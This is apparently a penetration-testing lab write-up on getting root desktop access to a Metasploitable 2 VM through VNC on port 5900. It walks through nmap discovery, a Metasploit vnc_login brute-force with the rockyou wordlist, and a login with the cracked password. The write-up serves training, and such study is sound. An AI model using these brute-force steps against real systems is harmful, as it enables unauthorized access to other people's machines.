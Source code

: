 # 🖥️ VNC Weak Password – Root GUI Access (Port 5900)

> This section documents the process of exploiting a weak VNC service running on Metasploitable 2 to gain root GUI access.

---

## 🔍 Service Discovery

```bash
nmap -p 5900 -sV 192.168.182.128
```

📌 Output:
- VNC (protocol 3.3)

VNC Protocol 3.3 is known to have weak authentication and no traffic encryption.

---

## 🧪 Step 1: VNC Script Scan

```bash
nmap -p 5900 --script vnc-info 192.168.182.128
```

📌 Output:
- Protocol version: 3.3
- Security types: VNC Authentication (2)

---

## 🔓 Step 2: Brute-force Attack with Metasploit

```bash
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.182.128
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

📌 Result:
- Login Successful:
  - Username: (blank)
  - Password: `password`

---

## 💻 Step 3: GUI Access with VNC Viewer

```bash
vncviewer 192.168.182.128
```

- Entered password: `password`
- ✅ Successfully accessed the desktop GUI
- Observed that session was already running as **root**

---

## ⚠️ Security Observations

- VNC 3.3 does **not** encrypt traffic
- Authentication is weak (DES-based)
- No account-level access control
- Password was common (`password`)

---

## 🔐 Summary

| Element       | Details                          |
|---------------|----------------------------------|
| Service       | VNC (protocol 3.3)               |
| Exploit       | Weak password brute-force        |
| Tool Used     | Metasploit `vnc_login`, vncviewer|
| Credentials   | password                         |
| Access Gained | Root GUI session                 |


